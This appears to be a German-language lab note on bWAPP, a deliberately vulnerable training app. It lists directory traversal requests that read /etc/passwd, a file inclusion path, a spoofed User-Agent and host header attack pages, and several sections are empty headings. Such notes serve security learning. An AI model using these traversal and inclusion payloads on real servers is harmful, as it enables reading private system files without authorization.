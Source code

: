 ### // A7 - Missing Functional Level Access Control //
---
##### Directory Traversal - Directories
~~~
/bWAPP/directory_traversal_2.php?directory=../../../../home/
~~~
Mittels "../" kann jeweils eine Orderebene nach oben gewandert werden.

---
##### Directory Traversal - Files
~~~
/bWAPP/directory_traversal_1.php?page=../../../../../etc/passwd
~~~
Somit können bekannte Datein einfach ausgelesen werden. <br>
Hier bsp: /etc/passwd

---
##### Host Header Attack (Cache Poisoning)

kann mit "hostheader_1.php" ausgeführt werden.

---
##### Host Header Attack (Reset Poisoning)

kann mit "hostheader_2.php" ausgeführt werden.

---
##### Local File Inclusion (SQLiteManager)
---
##### Remote & Local File Inclusion (RFI/LFI)

rfi.txt nach rfi.php > PHP fügt die Dateiendung .php automatisch an.
~~~
bWAPP/rlfi.php?language=../evil/rfi
~~~
---
##### Restrict Device Access
~~~
User-Agent: Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.133 Mobile Safari/535.19 
~~~
---
##### Restrict Folder Access
---
##### Server Side Request Forgery (SSRF)
---
##### XML External Entity Attacks (XXE)
